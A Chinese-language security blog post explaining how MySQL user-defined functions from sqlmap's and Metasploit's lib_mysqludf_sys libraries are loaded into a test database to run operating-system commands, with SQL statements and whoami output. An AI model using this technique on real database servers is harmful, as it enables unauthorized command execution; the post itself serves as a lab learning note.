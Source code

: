 ## MySQL UDF执行系统命令

2019-5-30



MySQL允许用户调用在共享库中的函数，这种函数叫做UDF(user defined functions)，即用户定义函数。

当然不是随便拉一个共享库过来，MySQL就能执行里面的函数。

关于UDF的编写，以及其他的细节，因为我时间的关系不在这里详细阐述，只记录一下如何利用



### 库文件

首先需要一个共享库/动态链接库。sqlmap自带可以执行系统命令的UDF库

系统为kali

```
# find / -name udf
/usr/share/golismero/tools/sqlmap/udf
# tree mysql
mysql
├── linux
│   ├── 32
│   │   └── lib_mysqludf_sys.so
│   └── 64
│       └── lib_mysqludf_sys.so
└── windows
    ├── 32
    │   └── lib_mysqludf_sys.dll
    └── 64
        └── lib_mysqludf_sys.dll

```

mysql文件夹中有Linux平台的和Windows平台的，并且都有32位和64位的版本 (这里的32位64位是对应MySQL的位数，版本不对会报错，在加载函数时提示无法打开)

网上看到有免杀相关的东西，这里kali自带的没有经过免杀处理

>但是sqlmap 中 自带 的shell 以及一些二进制文件，为了防止被误杀都经过异或方式编码，不能直接使用的。
>
>可以利用sqlmap 自带的解码工具cloak.py
>目录 sqlmap\extra\cloak\cloak.py 对 sqlmap\udf\mysql\windows\32\lib_mysqludf_sys.dll_ 解码后，再直接利用
>
>首先进入到 sqlmap\extra\cloak\cloak 目录下，执行命令：
>
>cloak.py -d -i D:\sqlmap\udf\mysql\windows\32\lib_mysqludf_sys.dll
>
>作者：回忆里的褶皱 
>来源：CSDN 
>原文：https://blog.csdn.net/x728999452/article/details/52413974 
>版权声明：本文为博主原创文章，转载请附上博文链接！
>
>



msf也带UDF库

```
# cd /usr/share/metasploit-framework/data/exploits/mysql/
# ls
lib_mysqludf_sys_32.dll  lib_mysqludf_sys_32.so  lib_mysqludf_sys_64.dll  lib_mysqludf_sys_64.so
```

查看函数

```
# readelf -s lib_mysqludf_sys_64.so | grep FUNC
    20: 000000000000107a   110 FUNC    GLOBAL DEFAULT   11 sys_set
    21: 0000000000000da7     1 FUNC    GLOBAL DEFAULT   11 sys_eval_deinit
    22: 0000000000001178     0 FUNC    GLOBAL DEFAULT   12 _fini
    23: 000000000000101a    45 FUNC    GLOBAL DEFAULT   11 lib_mysqludf_sys_info
    24: 0000000000000ba0     0 FUNC    GLOBAL DEFAULT    9 _init
    26: 0000000000000dab     1 FUNC    GLOBAL DEFAULT   11 sys_bineval_deinit
    27: 0000000000001066    20 FUNC    GLOBAL DEFAULT   11 sys_exec
    29: 0000000000000da5     1 FUNC    GLOBAL DEFAULT   11 sys_get_deinit
    30: 0000000000000f2e    41 FUNC    GLOBAL DEFAULT   11 sys_eval_init
    31: 00000000000010f7    65 FUNC    GLOBAL DEFAULT   11 sys_get
    32: 0000000000000da4     1 FUNC    GLOBAL DEFAULT   11 lib_mysqludf_sys_info_dei
    33: 0000000000000fea    48 FUNC    GLOBAL DEFAULT   11 sys_get_init
    35: 0000000000000da6     1 FUNC    GLOBAL DEFAULT   11 sys_exec_deinit
    36: 0000000000000f80   106 FUNC    GLOBAL DEFAULT   11 sys_set_init
    37: 0000000000000da8     3 FUNC    GLOBAL DEFAULT   11 sys_bineval_init
    38: 0000000000000f57    41 FUNC    GLOBAL DEFAULT   11 sys_exec_init
    39: 0000000000001047    31 FUNC    GLOBAL DEFAULT   11 lib_mysqludf_sys_info_ini
    40: 0000000000000dac   154 FUNC    GLOBAL DEFAULT   11 sys_bineval
    41: 00000000000010e8    15 FUNC    GLOBAL DEFAULT   11 sys_set_deinit
    42: 0000000000000e46   232 FUNC    GLOBAL DEFAULT   11 sys_eval

```



### 加载并执行库文件中的UDF

在 5.1版本以后，UDF库文件必须要在MySQL安装目录下的lib\plugin文件夹下，需要确保plugin目录存在

可以使用命令定位文件夹

```
mysql> select @@plugin_dir;
+------------------------+
| @@plugin_dir           |
+------------------------+
| /usr/lib/mysql/plugin/ |
+------------------------+
```



#### Windows

这里数据库的版本为Windows-MySQL 5.5

```
Server version: 5.5.53 MySQL Community Server (GPL)
```

因为没有plugin目录，这里为了演示直接手工创建文件夹并把文件复制过去...

```
 C:\Users\leaf\Desktop\PHPStudy_multiversion\MySQL\lib\plugin 的目录

2019/05/30  09:51    <DIR>          .
2019/05/30  09:51    <DIR>          ..
2015/01/15  00:59            11,264 udfdll.dll
```

sqlmap的共享库中有这么几个函数

>sys_eval，执行任意命令，并将输出返回。
> sys_exec，执行任意命令，并将退出码返回。
> sys_get，获取一个环境变量。
> sys_set，创建或修改一个环境变量。

创建函数（需要有mysql库的插入权限）

```
create function sys_eval returns string soname "udfdll.dll";
```

使用函数

```
mysql> select sys_eval("whoami");
+--------------------+
| sys_eval("whoami") |
+--------------------+
| leaf-pc\leaf       |
+--------------------+
1 row in set (0.34 sec)
```



删除函数

```
drop function sys_eval;
```



#### Linux

与Windows使用的过程大致相同

plugin文件夹默认在/usr/lib/mysql文件夹下，测试用的环境是Ubuntu 16.04，apt安装，自带一些插件

使用的是5.7.23，不知为何执行结果总是为NULL

### 扩展阅读

UDF编写和使用 <https://www.jianshu.com/p/10a980667819>

MySQL 利用UDF执行命令 <https://blog.csdn.net/x728999452/article/details/52413974>

UDF利用<https://osandamalith.com/2018/02/11/mysql-udf-exploitation/>

译文<https://xz.aliyun.com/t/2167?accounttraceid=85dbd2c9-8021-4125-bf50-c7be4b510695#toc-6>